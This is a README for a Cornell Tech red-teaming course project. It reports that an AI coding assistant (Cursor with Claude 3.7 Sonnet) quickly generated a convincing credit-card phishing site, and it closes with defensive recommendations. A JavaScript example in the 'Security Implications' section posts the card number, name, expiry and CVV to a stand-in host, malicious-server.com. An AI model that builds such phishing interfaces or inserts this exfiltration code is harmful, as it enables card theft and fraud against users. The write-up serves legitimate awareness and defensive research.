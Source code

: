 # CardShield: A Red Teaming AI Security Experiment

![Project Banner](https://img.shields.io/badge/Cornell%20Tech-Red%20Team%20Experiment-red)
![Status](https://img.shields.io/badge/Status-Educational%20Only-blue)
![License](https://img.shields.io/badge/License-MIT-green)

## Overview

This project was developed as part of the Cornell Tech Red Teaming course to assess the emerging security risks associated with AI-powered development tools. Specifically, we tested whether Cursor (an AI-powered IDE using Claude's 3.7 Sonnet model) could generate a legitimate-looking website designed to harvest sensitive financial information.

**IMPORTANT**: This project is for **educational purposes only**. The code in this repository should not be deployed in production or used to collect actual credit card information.

## Experiment Results

Our hypothesis was validated within minutes. **Within 2 minutes.** The AI was able to rapidly generate a professional, modern-looking website with:

- A convincing security-focused narrative (checking if a card has been "compromised")
- Complete credit card data collection (16-digit card number, cardholder name, expiry date, CVV)
- Sophisticated UI with interactive 3D card flipping
- Form validation for all credit card fields
- Realistic loading animations and "scanning" sequences
- Professional design elements (gradient text, responsive layout, custom animations)

The resulting site is visually indistinguishable from legitimate FinTech products, lending it immediate credibility to potential users. The entire implementation took less than 5 minutes from prompt to complete code generation.

## Technical Implementation

The application was created using vanilla web technologies:

- **HTML5** for structure
- **CSS3** for styling (with custom animations and 3D transformations)
- **JavaScript** for interactive elements and validation

Key features include:

1. **Interactive 3D Credit Card**: The card visually flips to show both front and back sides, with dedicated inputs for each field
2. **Multi-step User Flow**: Initial card entry → Scanning animation → Success message
3. **Field Validation**: Real-time validation for card number format, expiry dates, and CVV
4. **Auto-advancing Inputs**: Automatically focuses the next field when current input is complete
5. **Simulated "Security Scan"**: Animated loading sequence with progress indicators

## Security Implications

The ease and speed with which this convincing interface was generated raises several security concerns:

1. **Low Barrier to Entry**: Malicious actors no longer need extensive frontend development skills to create convincing phishing sites
2. **High Level of Polish**: The professional appearance makes the site immediately credible to average users
3. **Quick Iteration**: Such tools allow for rapid refinement based on user feedback
4. **Customizability**: The codebase can be easily modified to change branding, messaging, or functionality

For example, a malicious actor could trivially modify the `scanButton` event listener in `script.js` to send captured card data to an external server before showing the success animation:

```javascript
scanButton.addEventListener('click', function() {
    // Validation code...
    
    // This could be added to exfiltrate the data
    fetch('https://malicious-server.com/collect', {
        method: 'POST',
        body: JSON.stringify({
            cardNumber: `${cardNumber1}${cardNumber2}${cardNumber3}${cardNumber4}`,
            cardHolder: cardHolder,
            cardExpiry: `${cardMonth}/${cardYear}`,
            cardCvc: cardCvc
        })
    });
    
    // Continue with the original flow...
    changeState(initialState, loadingState);
    simulateScanning();
});
```

## Ethical Considerations

This project highlights the dual-use nature of powerful AI tools. The same capabilities that enable rapid prototyping and development for legitimate businesses also lower barriers for creating deceptive interfaces.

We believe that openly discussing these capabilities is crucial for:

1. **Raising awareness** among security professionals and the public
2. **Encouraging responsible AI development** that considers potential misuse
3. **Promoting stronger authentication systems** that go beyond visual trust signals
4. **Advancing discussions** around appropriate guardrails for AI-assisted coding

## Defensive Recommendations

Based on this experiment, we recommend:

- **For Users**: Be skeptical of websites requesting financial information, even when they look professional. Verify the domain and use official apps when possible.
- **For Developers**: Implement robust CSP policies, SRI checks, and consider how design elements might be co-opted.
- **For Platforms**: Consider how to detect and mitigate potentially deceptive interfaces created through AI tools.
- **For Educators**: Include AI-generated content in security training scenarios.

## Running the Project

To explore this project locally:

1. Clone the repository
2. Open `index.html` in a modern web browser
3. Interact with the interface to understand its flow

No server-side code or dependencies are required as this is a client-side only implementation.

## Conclusion

This experiment demonstrates that AI models can now generate sophisticated, deceptive web interfaces with minimal human guidance. As these tools become more accessible, the security community must adapt its defensive strategies and educate users about emerging risks.

The project serves as a call for proactive measures in the rapidly evolving landscape of AI-assisted development, where the technical barriers to creating convincing fraudulent interfaces are rapidly diminishing.

## License

This project is available under the MIT License for educational purposes only.
